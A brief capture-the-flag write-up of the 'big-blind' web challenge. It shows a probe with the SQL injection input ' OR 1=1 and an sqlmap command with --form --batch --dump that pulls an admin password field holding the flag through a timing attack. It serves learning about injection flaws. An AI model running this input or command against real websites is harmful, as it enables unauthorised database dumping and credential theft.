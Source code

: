 # big-blind (70 solves, 474 points)

## Description:
[https://big-blind.hsc.tf](https://big-blind.hsc.tf)

## Solution:
Guessing from the challenge name, this is probably some sort of blind injection. Trying ' OR 1=1, confirms it's a SQL injection. Now, you could write your own injection script but because I'm lazy and a script kiddie, I used sqlmap. After a couple minutes, it was able to using a timing attack to find the flag.
```
luke@parrot:~/Downloads$ sqlmap  https://big-blind.hsc.tf/ --form --batch  --dump --no-cast
...
...
+-----------------------------+--------+
| pass                        | user   |
+-----------------------------+--------+
| flag{any_info_is_good_info} | admin  |
+-----------------------------+--------+
## Flag:
`
flag{any_info_is_good_info}`
